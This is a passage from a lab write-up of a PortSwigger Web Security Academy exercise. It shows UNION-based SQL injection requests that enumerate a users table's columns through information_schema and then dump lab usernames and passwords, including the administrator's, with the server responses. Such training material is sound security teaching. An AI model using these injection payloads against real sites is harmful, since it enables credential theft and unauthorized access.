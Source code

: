 With the target table name in hand, we query `information_schema` again to determine its columns.

```http
GET /filter?category=Pets'+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+information_schema.columns+WHERE+TABLE_NAME+=+'users_vhedkl'-- HTTP/1.1
Host: ac2b1fa91ebc7502803424f000390053.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```html
<tr>
	<th>password_ldemmx</th>
	<td>character varying</td>
</tr>
<tr>
	<th>username_byefrz</th>
	<td>character varying</td>
</tr>
```

We find the username and password columns as `username_byefrz` and `password_ldemmx`, respectively and both of type string.

### Read the credentials

Putting it all together, we can send the following request to render the credentials on the web page, retrieve `administrator`'s password, and login.

```http
GET /filter?category=Pets'+UNION+SELECT+username_byefrz,password_ldemmx+FROM+users_vhedkl-- HTTP/1.1
Host: ac2b1fa91ebc7502803424f000390053.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
```

```html
<tbody>
	<tr>
		<th>administrator</th>
		<td>7nmmshti7w3c3xu9ou1z</td>
	</tr>
	<tr>
		<th>wiener</th>
		<td>pwc4cvrrouk5hs0ck9j9</td>
	</tr>
	<tr>
		<th>carlos</th>
		<td>ua0rdz1cfqm9b6nw5sm3</td>
	</tr>
</tbody>
```